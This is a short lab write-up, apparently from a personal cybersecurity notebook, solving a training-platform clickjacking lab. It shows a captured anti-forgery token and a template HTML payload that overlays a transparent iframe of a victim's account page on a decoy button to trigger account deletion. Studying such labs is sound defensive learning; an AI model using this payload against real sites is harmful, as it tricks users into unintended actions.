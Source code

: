 ```yaml
---
sticker: emoji//1f97c
---
```


# FIRST LAB

Based on the previous note: \[\[HOW TO CONSTRUCT A BASIC CLICKJACKING ATTACK|NOTE]]

![](gitbook/cybersecurity/images/Pasted%20image%2020241021153605.png)

If we use the delete function from the account and send the request to the repeater, we get the following CRSR token:

![](gitbook/cybersecurity/images/Pasted%20image%2020241021155644.png)

```ad-info
token:0XvopQRGgqPlwC8auzHR7owrONVjuWJf
```

Next, what we need to do is craft our Clickjacking malicious code, I used the following code for this:

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

![](gitbook/cybersecurity/images/Pasted%20image%2020241021162011.png) Once we send the exploit to the victim, lab's solved
